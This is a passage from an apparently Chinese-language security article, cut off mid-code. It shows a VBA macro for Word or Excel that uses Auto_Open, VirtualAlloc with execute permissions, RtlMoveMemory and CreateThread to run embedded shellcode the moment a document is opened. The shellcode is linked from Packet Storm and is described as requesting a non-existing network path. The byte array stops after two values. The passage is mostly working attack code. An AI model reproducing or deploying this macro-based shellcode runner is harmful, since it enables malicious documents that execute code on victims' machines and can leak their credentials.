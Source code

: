[https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)

[![](https://p2.ssl.qhimg.com/t0187045f48bd917533.png)](https://p2.ssl.qhimg.com/t0187045f48bd917533.png)

<br>

**将Shellcode嵌入到宏里**

在这里，我们将上面的Shellcode嵌入到Word/Excel宏里面。你可以使用同样的代码嵌入到一个VB6应用程序中：



```
' Author : Osanda Malith Jayathissa (@OsandaMalith)
' Title: Shellcode to request a non-existing network path
' Website: https://osandamalith
' Shellcode : https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html
' This is a word/excel macro. This can be used in vb6 applications as well
#If Vba7 Then
    Private Declare PtrSafe Function CreateThread Lib "kernel32" ( _
        ByVal lpThreadAttributes As Long, _
        ByVal dwStackSize As Long, _ 
        ByVal lpStartAddress As LongPtr, _
        lpParameter As Long, _
        ByVal dwCreationFlags As Long, _ 
        lpThreadId As Long) As LongPtr
    Private Declare PtrSafe Function VirtualAlloc Lib "kernel32" ( _
        ByVal lpAddress As Long, _
        ByVal dwSize As Long, _
        ByVal flAllocationType As Long, _
        ByVal flProtect As Long) As LongPtr 
    Private Declare PtrSafe Function RtlMoveMemory Lib "kernel32" ( _
        ByVal Destination  As LongPtr, _
        ByRef Source As Any, _
        ByVal Length As Long) As LongPtr
#Else
    Private Declare Function CreateThread Lib "kernel32" ( _
        ByVal lpThreadAttributes As Long, _
        ByVal dwStackSize As Long, _
        ByVal lpStartAddress As Long, _
        lpParameter As Long, _
        ByVal dwCreationFlags As Long, _
        lpThreadId As Long) As Long
    Private Declare Function VirtualAlloc Lib "kernel32" ( _
        ByVal lpAddress As Long, _
        ByVal dwSize As Long, _
        ByVal flAllocationType As Long, _
        ByVal flProtect As Long) As Long
    Private Declare Function RtlMoveMemory Lib "kernel32" ( _
        ByVal Destination As Long, _
        ByRef Source As Any, _
        ByVal Length As Long) As Long
#EndIf
Const MEM_COMMIT = &amp;H1000
Const PAGE_EXECUTE_READWRITE = &amp;H40
Sub Auto_Open()
    Dim source As Long, i As Long
#If Vba7 Then
    Dim  lpMemory As LongPtr, lResult As LongPtr
#Else
    Dim  lpMemory As Long, lResult As Long
#EndIf
    Dim bShellcode(376) As Byte
        bShellcode(0) = 232
        bShellcode(1) = 255
```